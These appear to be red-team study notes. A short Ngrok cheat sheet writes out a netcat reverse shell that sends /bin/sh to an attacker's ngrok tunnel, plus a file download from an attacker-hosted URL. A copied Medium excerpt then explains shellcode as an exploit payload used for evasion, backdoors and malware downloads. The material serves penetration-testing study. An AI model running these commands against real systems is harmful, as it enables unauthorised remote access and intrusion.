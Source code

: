 ![None](https://miro.medium.com/v2/resize:fit:700/1*FWTsQj29eeZY1ohWVcIyfQ.png)

					Ngrok: Netcat Reverse Shell

```
Attacker: ngrok tcp 443 -> 0.tcp.ap.ngrok.io:19036
nc -nvlp 443

Web: nc 0.tcp.ap.ngrok.io 19036 -e /bin/sh
```

![None](https://miro.medium.com/v2/resize:fit:700/1*xRCXgrVh346bME5lD4-y3g.png)

					Ngrok: Transfer File

```
Attacker: ngrok http 8080 -> https://2d90-103-144-45-243.ngrok-free.app 
touch file-kali.txt
python3 -m http.server 8080 
Web: wget https://2d90-103-144-45-243.ngrok-free.app/file-kali.txt 
ls file-kali.txt
```

---

##  Linux Shellcoding

#source: [Linux Shellcoding. “Linux Shellcoding for Security… | by RED TEAM | Jul, 2024 | Medium](https://sid4hack.medium.com/linux-shellcoding-9ce073353011)

## shellcode

Writing shellcode is a great way to learn more about assembly language and how a program interacts with the operating system.


![[{281A300D-FF58-420C-BA24-EBA33D2F30B0} 1.png]]

		example of a shellcode

Why do red teamers and penetration testers write shellcode? Because in real situations, shellcode can be injected into a running program to make it do something it wasn’t designed to do, such as buffer overflow attacks.

Therefore, shellcode is often used as the “payload” in an exploit.

Why is it called “shellcode”? Historically, shellcode is machine code that, when executed, opens a shell.

**Shellcode plays a crucial role in penetration testing and red teaming for several reasons:**

1. **Understanding Low-Level Operations**: Writing shellcode requires a deep understanding of assembly language and how programs interact with the operating system at a low level.
2. **Payload for Exploits :** Shellcode is often used as the payload in exploits. When a vulnerability <mark style="background: #FF5582A6;">such as a buffer overflow is exploited, shellcode can be injected into a running process to execute arbitrary commands.</mark>
3. **Evasion and Obfuscation**: Crafting effective shellcode involves techniques to evade detection by antivirus and intrusion detection systems.
4. **Advanced Post-Exploitation**: Beyond simply spawning a shell, modern shellcode can be designed to perform complex post-exploitation tasks.
5. **Versatility**: Modern shellcode is not limited to spawning shells. It can be crafted to perform a wide range of actions, such as downloading additional malware, creating backdoors.
